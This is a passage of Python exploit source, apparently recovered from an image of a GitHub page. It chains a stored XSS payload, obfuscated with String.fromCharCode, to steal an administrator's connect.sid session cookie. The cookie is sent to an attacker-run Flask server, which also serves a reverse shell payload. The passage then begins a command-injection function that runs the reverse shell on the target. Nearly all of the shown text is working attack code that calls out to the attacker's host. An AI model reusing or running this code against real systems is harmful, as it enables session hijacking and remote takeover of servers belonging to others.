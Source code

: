 @app.route('/rs', methods=['GET'])
def rs():
    print("[*] Sending reverse shell payload")
    return flask.Response(RS, mimetype='application/octet-stream')

@app.route('/leak', methods=['GET'])
def leak():
    global cookieValue, wsLock
    b = base64.b64decode(flask.request.url.split("leak?x=")[1])
    m = re.search("""name=\"cookie\" value=\"connect.sid&#x3D;(.*?)\">""",str(b)) #Search base64 decoded string
    cookieValue = m.group(1)
    print("[*] Admin session cookie leaked: " + cookieValue)

    #Let the main thread know that we have succesfully captured the admin session cookie
    wsLock.release()

    return flask.Response("OK")

def startFlask():
    app.run(host=LHOST, port=80)

#Start the web server to serve x.js and leak the admin's session cookie. We use the 'logging' and 'click' module to make it silent
log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)
click.echo = lambda a, *args, **styles : None
click.secho = lambda a, *args, **styles : None
thread2 = threading.Thread(target=startFlask)
thread2.start()

#Send an evil note that will request x.js from the web server
print("[*] Sending XSS payload")
payload = """document.write('<script src="http://"""+LHOST+"""/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
payload = '<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">'
data = {"uuid":bookingID,"body":payload}
r = requests.post(URLBASE+"agent/addNote", headers=headers, data=data)

#Wait for the admin session cookie before proceeding
print("[*] Waiting for the admin user to visit the infected note")
wsLock.acquire()
headers['Cookie'] = cookieName+"="+cookieValue

# executeRevShell - Executes a reverse shell on the target by abusing the command injection vulnerability
# Params:
#   urlbase - The URL of the target to compromise
#   wsIP - IP of the webserver which hosts the reverse shell payload "rs"
#   mutex - A mutex to acquire before exploiting the target
#   headers - Headers to send with the command injection attempts
def executeRevShell(urlbase, wsIP, mutex, headers):
    if mutex!=None:
        mutex.acquire()
